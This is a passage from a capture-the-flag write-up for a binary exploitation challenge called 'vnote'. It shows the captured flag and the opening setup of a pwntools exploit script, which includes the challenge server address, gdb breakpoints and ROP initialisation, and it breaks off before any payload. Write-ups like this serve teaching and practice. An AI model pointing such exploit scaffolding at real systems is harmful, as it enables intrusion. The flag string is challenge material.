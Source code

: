 {% endcode %}

<figure><img src="../../../.gitbook/assets/image_2023-08-27_223253555.png" alt="" width="518"><figcaption><p>running full exploit &#x26; getting flag</p></figcaption></figure>

### Flag

_**hacktoday{m1Nt4\_R3k0m3nD4s1\_fL4g\_saM4\_ch4tgPt\_d14\_m4Lah\_b1ngunG\_y4\_Sud4h\_L4h\_1ni\_4ja}**_

***

## Appendix

{% code title="exploit.py" lineNumbers="true" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './vnote'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host, port = '103.181.183.216', 17002

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x000000000040193f

break *0x4019be
break *0x4019e7
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
io = initialize()
rop = ROP(exe)

```